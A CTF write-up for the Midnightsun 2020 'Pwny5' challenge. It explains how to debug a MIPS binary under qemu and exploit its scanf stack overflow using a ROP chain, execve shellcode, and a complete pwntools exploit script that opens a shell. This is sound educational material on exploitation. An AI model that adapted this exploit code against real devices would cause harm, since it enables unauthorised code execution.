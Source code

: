 ```yaml
---
title: Pwny5 | Midnightsun CTF 2020
tags: ["pwn", "stack_overflow", "mips"]
points: 176
solves: 27
---
```


In this writeup we will see how to run and debug a `mips` binary and how to exploit a simple buffer overflow.

## Overview
In this challenge we get a statically linked binary with a very simple vulnerability. A `scanf("%s", stack_buffer)` resulting in a classic stack buffer overflow, as can be seen in the image below.

![](/assets/img/2020-04-04-pwny5_main.png)

The interesting part is that we have a `mips` binary. This was a first for me and in this writeup we will explore how I debugged and exploited this challenge.

![](/assets/img/2020-04-04-pwny5_file.png)

## Debugging setup
First of all let's get a good debugging setup.

To simply run the binary we can use `qemu-mipsel-static ./pwn5`.

We can also make qemu wait for a gdb connection on port 1234 with `qemu-mipsel-static -g 1234 ./pwn5`. Then, on another terminal, we can launch `gdb-multiarch` and run the following commands to establish the connection (I added these to my `~/.gdbinit` to make this step automatic):
```
file ./pwn5
set arch mips
target remote localhost:1234
```

And we have debugging! As a side note, `pwndbg` was making qemu crash for some reason I did not investigate, but switching to `gef` fixed that problem for the most part.


## Exploit
### pc control
To start let's get `pc` (program counter) control. The program calls `scanf("%s", buf_64_sz)` and so we just need to fill the buffer with `"A"*64` and then we have control over the `fp` (frame pointer) and `ra` (return address).

![](/assets/img/2020-04-04-pwny5_main_end.png)

```py
fp = "BBBB"
ra = "CCCC"
s.sendline("A"*64 + fp + ra)
```

### Popping a shell
To pop a shell, my first thought was to **ROP**, calling the `read` syscall to read `/bin/sh` to the bss, and then calling the `execve` syscall. In [linux mips syscall](https://www.linux-mips.org/wiki/Syscall) arguments are passed in registers `$a0` to `$a3` and the syscall number is passed in register `$v0`.

After looking through the gadgets (extracted with `ROPgadget --binary ./pwn5`) I noticed that, contrarily to x86, having control over the argument registers `$a0`, `$a1` and `$a2` is not very easy.

For that reason I decided to use the existing `scanf` call in the binary to get data into the `bss`. As we can see in the image below, if we jump to the highlighted address `0x400758`, we can control where the scanf will write to by controlling `$v0`.

![](/assets/img/2020-04-04-pwny5_scanf_call.png)

And that is what I did. I used a gadget to control `$v0` and then jumped to `0x400758`.
```python
def set_v0(v0):
    return "".join([
        p32(0x0046f27c), # lw $v0, 0x20($sp); lw $ra, 0x2c($sp); jr $ra ; addiu $sp, $sp, 0x30
        "X"*0x20,
        p32(v0),
        "X"*0x8,
    ])

addr_to_read_to = elf.bss(0x100)
scanf_addr = 0x400758
ROP = "".join([
    set_v0(addr_to_read_to),
    p32(scanf_addr),
])

payload = "A"*64 + p32(elf.bss(0x200)) + ROP
s.sendline(payload)
```

I also made `fp` equal `bss+0x200`, because this value will be used to set `sp` after the call to `scanf`, on the instruction `move $sp, $fp` which is analogous to `leave` on x86. (can be seen in the first picture at 0x40078c). By controlling the stack pointer, we can regain `ra` and therefore `pc` control.

At this point I also realized that I could execute shellcode on the stack, bss, etc.. since all mappings are `rwx`. Since I was already reading to the bss, I decided to read shellcode, and then jump to it.

The shellcode consisted of:
 - setting `$a1` and `$a2` to 0
 - setting `$a0` to the address of `/bin/sh` by simply subtracting 8 to the original `$a0` (determined by debugging)
 - setting `$v0` with the `execve` syscall number
 - jumping to the address of a `syscall` gadget already in the binary

**NOTE**: Ideally I would simply use the `syscall` instruction (opcode `0000000c`), but it contains the byte `0c` which would cause `scanf` to stop reading. At the time I didn't know this, but there was a simple workaround. As you can see in [mips-isa](https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf) page 159, the syscall opcode has a `code` field which we can use to our advantage. Assembling `syscall 0xfffff` results in opcode `03ffffcc` which does NOT contain a terminating char like before. That said, jumping to a `syscall` gadget was also simple enough and I even learned about delay slots.

If you notice there is a `nop` after the `j 0x4068bc`, which is not there by accident. In MIPS there are [branch delay slots](https://en.wikipedia.org/wiki/Delay_slot), meaning the next instruction is always executed, even if the previous instruction was a branch that was taken.

```python
mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    addiu $a0, $a0, -8 # This will point to /bin/sh

    li $v0, 4011 # execve syscall
    j 0x4068bc # syscall gadget
    nop
""")
print disasm(mips_shellcode)

# The bytes that will stop scanf from reading
assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
s.sendline(payload_2.ljust(1132-8, "Z") + "/bin/sh")
```

And we have a shell!

## Other possible methods
Now thinking about it, since the code area is writable I guess I could have just injected my shellcode right after the `scanf` call instead of injecting it in the bss and then jumping to it.

Maybe I could even just have written the shellcode on the stack and used a gadget to jump to the stack pointer, instead of reading the second time with `scanf`.


## Exploit
Here is the full exploit:

```py
from pwn import *
import sys

LOCAL = True
if "remote" in sys.argv:
    LOCAL = False


context.clear(log_level='info', arch="mips", os='linux')
elf = ELF("pwn5")

HOST = "pwn5-01.play.midnightsunctf.se"
PORT = 10005


def go():
    if LOCAL:
        # s = process("qemu-mipsel-static -g 1234 ./pwn5".split(" "))
        s = process("qemu-mipsel-static ./pwn5".split(" "))
    else:
        s = remote(HOST, PORT)

    s.recvuntil("data:")

    def set_v0(v0):
        return "".join([
            p32(0x0046f27c), # : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
            "X"*0x20,
            p32(v0),
            "Z"*0x8,
        ])

    shellcode_addr = elf.bss(0x100)
    scanf_addr = 0x400758
    ROP = "".join([
        set_v0(shellcode_addr),
        p32(scanf_addr),
    ])

    payload = "A"*64 + p32(elf.bss(0x200)) + ROP
    print "Payload:", payload
    s.sendline(payload)

    mips_shellcode = asm("""
        xor $a1, $a1
        xor $a2, $a2

        addiu $a0, $a0, -8 # This will point to /bin/sh

        li $v0, 4011 # execve syscall
        j 0x4068bc # syscall gadget
        nop
    """)
    print disasm(mips_shellcode)

    # The bytes that will stop scanf from reading
    assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

    payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
    payload_2 = payload_2.ljust(1132-8, "Z") + "/bin/sh"
    s.sendline(payload_2)

    s.interactive()

go()
```
